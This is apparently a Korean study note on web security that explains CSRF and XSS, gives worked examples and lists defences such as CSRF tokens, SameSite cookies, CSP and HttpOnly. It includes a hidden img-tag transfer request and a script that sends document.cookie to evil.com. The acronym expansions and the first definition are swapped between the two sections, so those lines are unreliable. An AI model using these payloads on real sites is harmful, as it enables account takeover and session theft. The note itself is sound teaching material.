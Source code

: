 # 4. CSRF

---

## 0. CSRF, XSS

웹 보안에서 흔히 발생하는 두 가지 주요 공격 유형

## 1. CSRF란?

### 정의 / 특징

- Cross-Site Scripting
- 공격자가 웹 페이지에 악성 스크립트를 주입하여 사용자의 브라우저에서 실행되게 만드는 공격
- 쿠키의 자동 전송 특성을 악용한 공격

### 작동 방식

1. 사용자가 정상 웹사이트에 로그인하여 인증 토큰(예: 쿠키)을 받음
2. 사용자가 다른 탭이나 창에서 악성 웹사이트 방문
3. 악성 웹사이트에는 정상 웹사이트에 요청을 보내는 이미지, 링크, 자바스크립트 등을 포함시켜, 사용자가 요청을 보내도록 유도
4. 사용자의 브라우저는 이 요청을 자동으로 인증 토큰과 함께 보내게 되어, 원래 사이트는 이를 정상적인 사용자의 요청으로 인식

### 작동 예시

1. **사용자 로그인**:
    - 사용자가 `mybank.com`에 로그인하고, 온라인 뱅킹 서비스를 이용합니다.
    - 로그인 성공 시, 사용자의 브라우저에는 `mybank.com`으로부터 인증 쿠키가 저장됩니다.
2. **악성 웹사이트 방문**:
    - 사용자가 `mybank.com`에 로그인한 상태로, 별도의 탭에서 악성 웹사이트 `evil.com`을 방문합니다.
    - `evil.com`에는 다음과 같은 HTML 코드가 있습니다:

        ```html
        <img src="https://mybank.com/transfer?to=attacker&amount=1000" width="0" height="0">
        ```

    - 이 코드는 `mybank.com`에 자금 이체를 요청하는 이미지를 불러오는 것처럼 보입니다.
3. **악성 요청 전송**:
    - 사용자의 브라우저는 `evil.com`에 있는 이미지를 불러오려고 시도합니다.
    - 이 과정에서 `mybank.com`으로 돈을 이체하는 요청이 포함된 "이미지"를 불러오게 됩니다.
    - 사용자의 브라우저는 이미 `mybank.com`에 인증된 상태이므로, 이 요청은 사용자가 인증된 것처럼 처리됩니다.
4. **결과**:
    - `mybank.com`은 이 요청이 사용자로부터 온 것으로 인식하고, 공격자가 지정한 계좌로 1000달러를 이체합니다.

### 예방 방법

**사용자 차원**

- 사용하지 않는 웹 애플리케이션 로그아웃
- 여러 웹사이트 동시 사용 자제

**서버 차원**

- referer check
    - HTTP request header에서 referer 정보 확인 가능
    - 일반적으로 host와 referer 값이 일치
    - referer check만으로도 많은 공격을 방어할 수 있음
- SameSite 쿠키 속성 설정
    - 쿠키가 동일 출처 요청에만 포함되도록 함
- CSRF 토큰 사용
    - 서버에 들어온 요청이 실제 서버에서 허용한 요청이 맞는지 확인하기 위한 토큰
- 사용자의 중요한 결정에 대한 추가적인 인증 요구
    - 비밀번호 변경이나 중요한 정보 업데이트 시 추가적인 인증 절차 요구

## 2. XSS란?

### 정의 / 특징

- Cross-Site Request Forgery
- 이미 인증된 웹사이트에 대해 사용자의 의도와는 무관하게 악의적인 요청을 발생시키는 공격

### 작동 방식

1. 공격자는 악성 스크립트를 포함한 데이터를 웹 애플리케이션에 입력
2. 이 악성 데이터는 서버에서 필터링 또는 이스케이프 처리 없이 다른 사용자에게 전달
3. 다른 사용자의 브라우저가 이 데이터를 받아들이고, 내장된 스크립트가 실행
4. 이 스크립트는 사용자의 쿠키, 세션 토큰을 탈취하거나, 사용자를 대신하여 악의적인 행동을 수행할 수 있음

### 작동 예시

**예시 시나리오: 블로그 웹사이트의 댓글 섹션**

상황: `exampleblog.com`은 사용자들이 글을 읽고 댓글을 달 수 있는 블로그 사이트입니다.

**1단계: 악성 스크립트 작성**

- 공격자는 `exampleblog.com`의 특정 글에 댓글을 답니다.
- 이 댓글에는 다음과 같은 악성 JavaScript 코드가 포함되어 있습니다:

    ```html
    <script>
      var cookies = document.cookie;
      fetch('https://evil.com/steal?cookies=' + cookies);
    </script>
    ```


**2단계: 블로그 사이트의 취약점**

- `exampleblog.com`은 사용자가 작성한 댓글을 필터링 하거나 적절히 이스케이프 처리하지 않습니다.
- 결과적으로, 공격자가 작성한 댓글이 그대로 블로그에 게시됩니다.

**3단계: 악성 스크립트 실행**

- 다른 사용자가 해당 글을 방문할 때, 페이지에 포함된 악성 스크립트가 그들의 브라우저에서 실행됩니다.
- 실행된 스크립트는 사용자의 쿠키를 탈취하고, 이를 `evil.com`의 서버로 전송합니다.

**4단계: 정보 탈취**

- `evil.com`은 전송된 쿠키를 받아 사용자의 세션 정보를 탈취합니다.
- 이 정보를 사용하여 공격자는 `exampleblog.com`에서 해당 사용자의 계정으로 로그인할 수 있습니다.

### 예방 방법

- HTML, JavaScript, CSS에서 안전하지 않은 문자를 이스케이프 처리
- `CSP`를 설정하여, 승인되지 않은 출처의 스크립트 실행 차단
    - CSP(컨텐츠 보안정책): 교차 사이트 스크립팅([XSS](https://developer.mozilla.org/ko/docs/Glossary/Cross-site_scripting))과 데이터 주입 공격을 비롯한 특정 유형의 공격을 탐지하고 완화하는 데 도움이 되는 추가 보안 계층
    - HTTP 헤더 설정

        ```
        	Content-Security-Policy: default-src 'self'; script-src 'self' https://apis.google.com; style-src 'self' 'unsafe-inline'; img-src 'self' https://images.example.com;
        ```

- 쿠키에 **`HttpOnly`** 속성을 설정하여 JavaScript를 통한 접근 방지
    - HttpOnly 속성이 설정된 쿠키는 JavaScript를 통해 직접 접근 불가
    - 즉, document.cookie API를 사용하여 이러한 쿠키를 읽거나 수정하는 것이 불가능
